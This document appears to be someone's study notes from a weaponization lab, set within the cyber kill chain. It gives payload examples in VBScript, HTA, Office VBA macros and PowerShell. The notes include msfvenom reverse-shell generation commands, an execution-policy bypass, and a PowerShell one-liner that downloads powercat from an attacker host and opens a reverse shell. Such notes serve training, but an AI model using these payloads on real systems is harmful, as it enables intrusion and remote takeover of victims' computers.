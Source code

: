 # Cyber kill chain

**Brief NOTE**  MITRE ATT&CK is a guideline for classifying and describing cyberattacks and intrusions

The cyberkill chain (in () is the MITRE ATT&CK)
1) Recon (recon) 
	- Obtain information on the target 	Harvesting emails, OSINT

2) Weaponization (Execution)
	- Creating payloads etc. Exploit with backdoor, malicious office document

3) Delivery (intial access)
	- How the payload will be delievered. Email, web, USB

4) Explotation (initial access)
	- Exploit the target's system to execute code 	MS17-010, Zero-Logon, etc.

5) Installation (persistence)
	- Install malware or other tooling 	Mimikatz, Rubeus, etc.

6) Command & control (C2)
	- Control the compromised asset from a remote central controller 	Empire, Cobalt Strike, etc.

7) Action on objectives (Exfiltration/impact)
	- Any end objectives: ransomware, data exfiltration, etc. 	Conti, LockBit2.0, etc.

## Weaponization

This involves creating payloads to be run on the target machine to get initial access.

### Windows Scripting Host

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system. It is a windows native engine cscript.exe for command line scripts and wscript.exe for GUI which are responsbile for executing various windows basic scripts including vbe and vbs. Scripts are ran at the same permission level as the compromised user.

To create a simple payload using VBscript

```
Dim message
message ="hello"
MsgBox message
```

Dim declares a variable. The variable is then assigned a value and then the MsgBox function called with the variable.

THe code can be saved to a file with a .vbs extension and run using wscript.

```wscript payload.vbs``` 

Using VBscript to run exe files

```
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

this runs the windows calculator.

If wscript is not allowed then can use ```cscript.exe <filename>.vbs```
Also can also name the file as .txt and use an argument in wscript ```/e:VBScript``` to make it run as an vbs script.

```wscript /e:VBScript payload.txt```

### HTA

HTML applications are dynamic html pages with containing Jscript and VBScript and are executed by the mshta binary. They can be executed by web browser or on their own. They allow you to create a downloadable file that takes all the information regarding how it is displayed and rendered. 

An example of payload.
```
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

save to a .hta file, load a python webserver on attacking machine and get the victim machine to open the file.

Can also create a hta reverse shell payload using msfvenom

```msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f hta-psh -o thm.hta```

or use metasploit using ```exploit/windows/misc/hta_server``` and visting the url provided by metasploit

### Visual Basic for Applications (VBA)

Programming language for microsoft word/excel/powerpoint etc to allow automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.

Macros are custom function written in VBA code to automate certain tasks in the applications. VBA can access the windows api and other lower level functionality. 

creating macros in word
1) open word
2) go to view -> macros
3) Give the macros a name
4) Click on macros in document 
4) Click create
5) create payload

An example of a payload
```
Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub
```

This payload will run as soon as the document is opened

6) Run the payload by clicking run.
7) Save the word document as a macro-enabled format such as .doc or .docm

Examples of other more useful payloads

```
Sub Document_Open()
  calc
End Sub

Sub AutoOpen()
  calc
End Sub

Sub calc()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

Dim declares payload as a string. CreateObject("Wscript.Shell").Run payload we create a Windows Scripting Host (WSH) object and run the payload.

Creating a payload with msfconsole to get a rev shell.
1) create payload with msfvenom ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=1 LPORT= -f vba ```
**msfvenom will automatically use excel workbooks. To use word change Workbook_Open to Document_Open**
2) Create a word document like before with the macro from msfvenom
3) Open msfconsole and start multi/handler
4) wait for rev shell

### Powershell

Powershell is a OOP language executed from the Dynamic Language Runtime in .NET. To run powershell scripts

```powershell -File <file_name>```

However the execution policy will stop this from being run. To check the execution policy

```Get-ExecutionPolicy```

There are two ways to bypass execution policy, first is to change it globally for our user by turining it off 
```Set-ExecutionPolicy -Scope CurrentUser RemoteSigned```

or to run the file ignoring the execution policy

```powershell -ex bypass -File <name>.ps1```

Powercat is a ps1 script that can give us a revshell

1) Get it onto the machine, Can be done using http.server or smb from impacket
2) Start listerner
3) Run powercat (the first part of the command will get the file over http from attacking machine. If already on machine only execute after ;)
```powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACK_IP -p PORT -e cmd"```